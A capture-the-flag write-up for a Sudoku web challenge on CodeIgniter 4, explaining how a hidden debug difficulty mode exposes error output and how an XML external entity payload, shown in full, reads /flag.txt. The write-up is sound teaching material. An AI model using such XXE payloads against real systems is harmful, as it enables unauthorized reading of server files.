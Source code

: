 # Puzzling

### Writeup

This is an exercise in source code analysis and understanding XXE attacks in PHP. Players are shown a simple Sudoku puzzle site which allows them to play random puzzles as well as submit puzzles to share with others.

Analyzing the source code, which is running the Codeigniter 4 MVC framework, they will find that the submission function for sending in new puzzles is vulnerable to XML external entity injection. By setting the difficulty to "debug" by browsing to the correct URL, they can see the debug output for the submission function in the event that their submission is not a valid solvable Sudoku solution.

In the Sudoku controller (app/Controllers/Sudoku.php), there is a function for setting the difficulty of the puzzle, which is called via Javascript using the pulldown menu on the game page.

```php
public function setDifficulty($difficulty)
    {
        $validDifficulties = ['easy', 'medium', 'hard','debug'];

        if (!in_array($difficulty, $validDifficulties)) {
            return $this->fail('Invalid difficulty level');
        }

        session()->set('difficulty', $difficulty);

        return $this->respond([
            'message' => 'Difficulty level updated',
            'difficulty' => $difficulty
        ]);
    }
```

So, by browsing to */sudoku/setDifficulty/debug*, the player can set the debug mode which also makes the puzzles trivial to solve.

Next, they may notice that the submittion function in the same controller has a case where if the provided board is not a valid Sudoku puzzle, it will return an error message. However, if the debug option is set, it will print the XML output instead.

```php
if (!$this->model->isValidSudoku($xml)) {
    if (session()->get('difficulty') == "debug"){
        return $this->fail($xml);
    }
    return $this->fail('Invalid Sudoku solution');
}
```

Using this, they can inject an entity which loads the content of /flag.txt into the XML, which is then printed in the debug output. This can be automated with [solution/solve.py](solve.py). Manually, this can be done by modifying the contents of the provided sample board XML to add the malicious external entity:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY file SYSTEM "file:///flag.txt">
]>
<SudokuPuzzle>
    <row>
        <column>&file;</column>
```

Since the debug output happens after any entities are resolved, the contents of flag.txt are printed in the cell instead of a number.

